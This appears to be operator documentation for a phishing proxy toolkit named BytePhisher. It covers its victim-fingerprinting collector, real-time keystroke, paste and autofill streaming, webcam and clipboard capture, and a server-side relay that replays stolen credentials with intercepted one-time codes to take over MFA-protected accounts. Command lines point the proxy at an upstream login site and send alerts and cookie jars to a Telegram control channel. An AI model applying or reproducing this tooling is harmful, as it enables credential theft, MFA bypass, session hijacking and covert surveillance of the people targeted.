



# Harvest layer (collector, live stream, session completion)

Everything the browser gives away while the page is open, plus the live input stream and the server-side code relay that finishes an MFA login inside the victim's own session.



## Part 1 - The collector and the device dump

Every link served by BytePhisher runs a collector (`core/assets/intel.js`) the moment
the page opens. It reports everything a browser volunteers to any site on the
internet, in waves (ten labels: open, deep, deep2, final, beat, gesture, unload,
hidden, move, autofill), and keeps reporting while the tab stays open.

Nothing here exploits anything: no permission is bypassed, no cross-origin read
happens, no persistence is installed. It is the same information every analytics
script, ad network and anti-fraud vendor already collects — the difference is
that this tool keeps all of it, in full detail, for the engagement record.

---

### 1. What is collected (48 modules)

| module | what it extracts | why it matters |
|---|---|---|
| `nav` | UA, appVersion, platform, vendor, language(s), cookieEnabled, DNT/GPC, cores, deviceMemory, touch points, plugin + mimeType list, `webdriver` | baseline identity; empty plugin arrays are a headless tell |
| `uaDataHigh` | client hints: architecture, bitness, model, platform version, full version list, wow64 | the **real** device/build, survives UA spoofing |
| `screen` | resolution, avail area, viewport, window, DPR, colour depth, orientation, multi-monitor, 12 media queries | device class, VM/default resolutions, dark mode, motion prefs |
| `time` | IANA timezone, locale, calendar, numbering system, offsets in Jan and Jul (DST behaviour), formatted currency/number/relative time | geography independent of IP; DST shape reveals hemisphere |
| `canvas` | multi-font/emoji/gradient render + hash, blank-canvas check | classic fingerprint; detects anti-fingerprint faking |
| `webgl` | vendor/renderer (masked + unmasked), GL version, GLSL, 29-60 extensions, hardware limits, anisotropy | GPU model; SwiftShader/llvmpipe = VM/headless |
| `webgpu` | adapter info, features, limits | modern hardware profile |
| `audio` | OfflineAudioContext DSP sum + tail | CPU/audio-stack fingerprint |
| `math` | 20 transcendental function outputs | libm/CPU signature (hardware vs emulator) |
| `fonts` | ~110 candidate fonts probed by measurement | installed software, OS locale packs, headless detection |
| `battery` | level, charging, times | device state; charging-only phones |
| `net` | connection type, downlink, RTT, saveData, navigation timing (DNS/TCP/TLS/TTFB/next-hop), JS heap limits | network quality, proxying, device class |
| `storage` | localStorage/sessionStorage/IndexedDB/caches/serviceWorker availability, cookie length, quota + usage | private mode, persistence capability |
| `permissions` | 20 permission states | headless reports deny-everything; profile of what the user granted |
| `mediaDevices` | device counts by kind, groupIds, label visibility | cameras/mics present, permissions already granted |
| `codecs` | H.264/HEVC/AV1/VP8/VP9/Theora + AAC/MP3/Opus/Vorbis/FLAC/AC-3/ALAC, MediaSource, EME | hardware decode capability = device generation |
| `drm` | Widevine / PlayReady / FairPlay / ClearKey | platform + browser build |
| `webrtc` | local IPs (mDNS-obfuscated or real), **public IP via STUN**, ICE candidate types | VPN/proxy detection, real network path |
| `features` | 190-240 API checks (WebGPU, WebUSB, WebSerial, Bluetooth, NFC, HID, WebAuthn, WebCodecs, AI APIs, CSS features, JS engine features…) | precise browser build and capability profile |
| `automation` | driver globals (`$cdc_`, `__playwright`, `_phantom`…), chrome-object consistency, ad-block bait, extension scripts, password-manager DOM markers | bot detection with the evidence attached |
| `adblock` | fetch probe to an ad URL | blocker/extension presence |
| `gamepads` | connected pads | peripheral hints |
| `page` | form structure, hidden fields, cookie string, counts | what the victim is looking at |
| `crypto` | RNG sample, subtle-crypto algorithm list, RNG timing | platform profile |
| `behaviour` | mouse moves, keystrokes, clicks, scroll depth, time on page | human vs scripted, engagement |
| `geolocation` / `clipboard` / `notifications` / `usbSerialHid` / `localFonts` | permission-gated probes, fired on the first user gesture only with `--intel-perms` | exact coordinates, clipboard content, granted devices |

Wave timing: `open` (immediately) → `deep` (2.5 s) → `deep2` (6 s) → `final`
(12 s) → `beat` (every 30 s) → `gesture` (first interaction) → `unload`/`hidden`.

### 2. What the analysis derives (`core/intel.py`)

| conclusion | method |
|---|---|
| **device token** | SHA-256 over canvas + audio + GPU renderer + CPU cores/memory + font set + math print + screen + timezone. Stable across visits and cookie clearing; changes on re-image or spoof |
| **headless score (0-100) + reasons** | automation UA (+55), `navigator.webdriver` (+45), driver globals (+40), Selenium/Puppeteer/Playwright markers (+40), headless UA (+35), software/virtual GPU (+35), Node/Electron runtime (+25), empty plugins (+20), empty mimeTypes (+15), empty languages (+15), Chrome claims without `chrome.runtime` (+10), deny-everything permissions (+20), 0-1 cores (+10), default VM resolutions (+12), blank canvas (+20), no fonts (+12) |
| **VPN/proxy suspicion + reasons** | WebRTC public IP ≠ HTTP source IP (+45), relay-only ICE (+20), timezone vs IP country (+30), language vs IP country (+15) |
| **browser / OS / device class** | UA + client hints + feature flags (Electron/Brave/Edge/Opera/Safari detection survives UA edits) |
| **installed-software hints** | font list, DRM modules, codec support, password-manager DOM markers, extension script URLs |

All scores are *labels with evidence*, never silent drops: a bot capture is
stored and flagged, so campaign numbers stay defensible.

### 3. Reading the data

```bash
./.venv/bin/python bytephisher.py --intel-list                  # table: id, ip, country, bot, vpn, token, UA
./.venv/bin/python bytephisher.py --intel-dump latest           # full human-readable dump
./.venv/bin/python bytephisher.py --intel-dump 7                # by row id
./.venv/bin/python bytephisher.py --intel-dump <session-sid>    # by session
./.venv/bin/python bytephisher.py --intel-export data/devices.json
./.venv/bin/python bytephisher.py --export data/all.json        # captures + devices
```

The dashboard API exposes the same rows through `/api/captures` and
`/api/stats`; device dumps also ride the configured Telegram/webhook alerts on
the `open`, `gesture` and `final` waves.

### 4. Verified against a real browser

Checked with Playwright/Chromium against a running BytePhisher instance:

* collector served (55 KB) with the session id and permission switch bound;
* page delivered with the collector tag injected and the `__bhi` session cookie;
* waves merged into a single record (`['open','deep','deep2','final']`);
* **190/243** API checks collected, 48 modules, device token computed;
* correctly flagged the automated browser: headless score 100 with the UA,
  SwiftShader renderer, missing `chrome.runtime` and the default 1280x720
  resolution as evidence;
* WebRTC public IP captured and compared against the HTTP source IP;
* fonts (19), GPU (SwiftShader), codecs, DRM (Widevine/ClearKey), permissions
  matrix, battery, storage quota and behaviour counters all populated.

Two real bugs were found this way and are now pinned by tests: the collector
double-encoded its JSON (every beacon answered 400) and reading an accessor off
a prototype (`HTMLMediaElement.prototype.remote`,
`AudioContext.prototype.audioWorklet`) threw *Illegal invocation* and wiped the
entire capability matrix.

### 5. Limits, stated plainly

1. **Secure-context APIs need HTTPS.** Over plain HTTP (or `file://`) WebUSB,
   WebSerial, Bluetooth, NFC, HID and geolocation are unavailable — the dump
   reports them as missing rather than pretending. A tunnel gives you HTTPS.
2. **Permission-gated probes cost a prompt.** They run only with
   `--intel-perms`, only after a real user gesture, and a denial is recorded as
   a denial (which is itself a signal: a bot denies instantly).
3. **Safari/Firefox expose less.** Client hints and some WebGL/canvas detail are
   Chromium-only; the collector degrades module by module instead of failing.
4. **Canvas/audio values can be faked** by anti-fingerprint extensions; the
   blank-canvas flag and the font/GPU cross-checks catch the obvious cases.
5. **mDNS obfuscation** hides WebRTC local IPs on modern browsers — the public
   IP still comes through STUN, which is what the VPN check needs.
6. **VPN inference is SUSPECTED, never CONFIRMED.** A corporate NAT, a mobile
   carrier CGNAT or a split-tunnel VPN all look similar. The reasons are
   reported so a human can judge.
7. **`--no-intel` disables everything.** Use it when an engagement's scope says
   "credentials only" — the tool then behaves exactly as before this feature.


### 6. The live stream (real-time input)

The device dump answers "who is this". The live stream answers "what are they
typing, right now". Both go through the same collector and the same analysis:

| Module | Sends | Notes |
|---|---|---|
| `liveInput` | every `input`, `key`, `paste`, `copy` | debounced ~700 ms, flushed on blur/submit/pagehide, own endpoint |
| `autofillEscalation` | the browser's own autofill | load-time snapshot vs re-read on the first gesture |
| `clipboardWatch` | the clipboard once | permission-gated, on the first gesture |
| `mediaCapture` | webcam frame, mic clip, screen frame | permission-gated, bounded, refusal reported |

The stream is bounded on the way in (300 chars per value, 40 events per beacon,
800 per session, 2 MB per request) and stored in the `live_input` table. A value
that looks like a one-time code is flagged, and if the session has a pending
credential POST the proxy completes that login upstream with the code. See
[REALTIME.md](HARVEST.md).

## Part 2 - The live stream and MFA completion

The difference between a proxy that *records* a login and a proxy that *lands* an
MFA-protected login is the loop below: what the victim types leaves the browser as
it is typed, and a one-time code finishes the login upstream before the victim
ever presses submit.

### The loop



```text
 victim types            collector streams           proxy acts
 ─────────────           ──────────────────          ──────────
 p  ─┐                    ┌── /__bh/live ──┐          ┌─ store (live_input)
 a  ├─ input event ───────┤ debounce 700ms ├──────────┤─ alert (real time)
 s  │                    └────────────────┘          └─ OTP? ─ yes ─┐
 s  │                                                                │
 w  ┘                                                                ▼
                                                        complete_with_otp()
                                                        ├ replay pending login
                                                        ├ append the code
                                                        ├ POST upstream
                                                        └ captured? ─ yes ─ alert
```

### What is streamed

| Event | Payload | Why it matters |
|---|---|---|
| `input` | field name, type, value (300 chars), length, caret | the value as typed, not on submit |
| `key` | key name, field, ms | typing rhythm; no key content beyond the key itself |
| `paste` | field, pasted text | people paste passwords and codes |
| `copy` | selected text | what they copied out of the page |
| `autofill` | field, value, previous length | the browser's own autofill, readable after the first gesture |

Boundaries, on purpose: 40 events per beacon, 300 characters per value, 800 events
kept per session, 2 MB request cap. A paste of a whole document cannot become a
megabyte in the vault.

### Why the OTP step works server-side

A browser keeps a `password` field's value unreadable to script until the user
interacts with the page, and an MFA form is usually submitted by the site's own
script. Both are handled:

1. **Autofill escalation** - a snapshot of every field is taken at load, then
   re-read on the first gesture; the diff is the browser's autofill.
2. **Pending login** - the relayed credential POST is remembered (`path`, `body`,
   `host`, `headers`).
3. **Code completion** - a streamed value that looks like a one-time code
   (4-8 digits, or any 6-digit value) is appended to that remembered body and
   replayed upstream inside the same session. If the site accepts it, the session
   is marked captured with the real cookie jar.



A wrong code is reported honestly: `captured: false`, the session stays open, and
the operator sees the rejection instead of a false "we own the account".

### Operator side

```bash
# the alert carries buttons; the same bot is a control channel
./.venv/bin/python bytephisher.py --proxy --upstream login.example.com \
    --telegram "TOKEN:CHAT_ID" --telegram-c2
```

* alert types: `live` (fields as typed), `otp` (a code, with the code shown),
  `session` (cookie jar + `--session <sid>` hint)
* inline buttons: `Takeover` `Live` `Session` `Block IP` (plus `Show codes` on an
  OTP alert)
* commands: see [CONTROL.md](OPERATIONS.md)

### Reading it back

```bash
./.venv/bin/python bytephisher.py --session <sid>        # vault + live summary
./.venv/bin/python bytephisher.py --sessions             # all sessions
```

In the Telegram chat: `/live <sid>` (latest value per field, codes flagged),
`/otp <sid>` (input seen, in order).

### Storage

| Where | What | Bound |
|---|---|---|
| `live_input` table | every beacon: sid, ts, kind, field, value, events JSON | 20 KB per row |
| session vault | `live_input` list when no DB is attached | last 800 events |
| alerts | last 12 events per alert | never the whole stream |

### Tests

`tests/test_realtime.py` - 25 tests. The load-bearing ones:

| Test | Proves |
|---|---|
| `test_streamed_code_completes_the_login_upstream` | the code reaches the real upstream and the session flips to captured |
| `test_a_wrong_code_does_not_capture` | a rejected code is reported as rejected |
| `test_events_are_stored_and_alerted` | storage + the real-time alert on the static server |
| `test_otp_shapes` | what counts as a one-time code (and what does not) |
| `test_oversized_body_is_refused` | the 2 MB cap holds, nothing is stored |

```bash
./.venv/bin/python -m pytest tests/test_realtime.py -v
```


### Deeper hardware and profile detail (added)

The collector also reports the OS voice list (`speechSynthesis.getVoices()`, which
names the installed engines and their languages), the physical keyboard layout
(`navigator.keyboard.getLayoutMap()`), connected controllers (`getGamepads()`),
the JS heap limit (`performance.memory`, a device-class signal), the IndexedDB
database names on the profile (`indexedDB.databases()` - which sites and PWAs this
browser holds data for), OPFS availability, XR device support per session mode,
the sensor APIs (ambient light, magnetometer, gyroscope, accelerometer),
Chrome's internal timing objects (`chrome.csi()`, `chrome.loadTimes()`), and the
PWA/activation state (standalone, display-mode, `userActivation`, hover/pointer,
`prefers-color-scheme`, reduced motion, forced colors, storage access).

| what the web CAN reach | what it CANNOT |
|---|---|
| device model and platform version (Client Hints `model`, `platformVersion`), architecture, bitness | IMEI, IMSI, the phone number, SMS, contacts |
| GPU/WebGPU adapter, audio and canvas fingerprints, heap limit | the OS build or a device serial |
| installed voices, fonts, keyboard layout, controllers, cameras and microphones by name | installed applications |
| paired USB/HID/Bluetooth devices, where the browser grants permission | files outside the browser sandbox |

The hard limits are the browser's, not this tool's: a page cannot read IMEI/IMSI or
SMS - that needs a native app with permissions or a rooted device. The closest the
web gets to a device identity is the Client Hints `model` value plus the GPU, audio
and canvas fingerprints, which together are stable enough to recognise the same
device across sessions (that is what the device token is).
